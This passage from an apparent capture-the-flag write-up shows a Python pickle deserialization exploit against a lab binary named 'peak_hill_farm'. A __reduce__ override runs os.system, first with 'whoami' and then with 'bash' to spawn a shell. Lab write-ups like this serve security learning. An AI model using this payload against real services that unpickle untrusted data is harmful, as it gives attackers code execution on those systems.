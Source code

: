 
Let's do a test to see if the `peak_hill_farm` binary properly deserializes data.

To generate our serialized payload, we can use the following Python script:

```python
import pickle
import os

class myPickle(object):
	def __reduce__(self):
		return (os.system, ('whoami', ))

pickle_result = pickle.dumps(myPickle())

with open("pickle_result", "wb") as file:
	file.write(pickle_result)
```

This script first serializes / pickles an object of the **myPickle** class. What's important to note is that the myPickle class has its **\__reduce__()** directive overwritten to run the `whoami` command. Hence, when a Python program attempts to deserialize a myPickle object, it will first refer to the \__reduce__() directive to see if there is any instructions that need to be executed while deserializing the data. It will then run whatever code that we have placed in the directive, allowing us to obtain remote code execution. In this case, the `whoami` command will be run.

 With the serialized object saved to a file, let's go ahead and base64-encode the data so that we can pass it to the `peak_hill_farm` binary:

![screenshot26](../assets/images/peak_hill/screenshot26.png)

We then pass it to the binary:

![screenshot27](../assets/images/peak_hill/screenshot27.png)

Nice, The exploit works and the `whoami` command was run! Now we just have to replace `whoami` with `bash` like so:

```python
class myPickle(object):
	def __reduce__(self):
		return (os.system, ('bash', ))
```

Similarly, we base64-encode the result and pass it it to the `peak_hill_farm` binary:

![screenshot28](../assets/images/peak_hill/screenshot28.png)
